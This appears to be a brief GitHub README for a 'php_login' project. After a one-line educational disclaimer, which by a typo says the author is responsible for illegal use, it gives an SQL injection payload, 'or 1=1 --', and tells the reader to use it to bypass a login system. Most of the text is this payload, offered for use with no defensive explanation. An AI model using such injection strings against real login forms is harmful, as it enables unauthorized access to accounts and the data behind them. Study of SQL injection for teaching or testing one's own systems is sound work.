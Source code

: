 # php_login

This is only for educational purpose. I am resposible for anyone who uses it illegally
Use this payload to pypass the login system

payload: 'or 1=1 --'

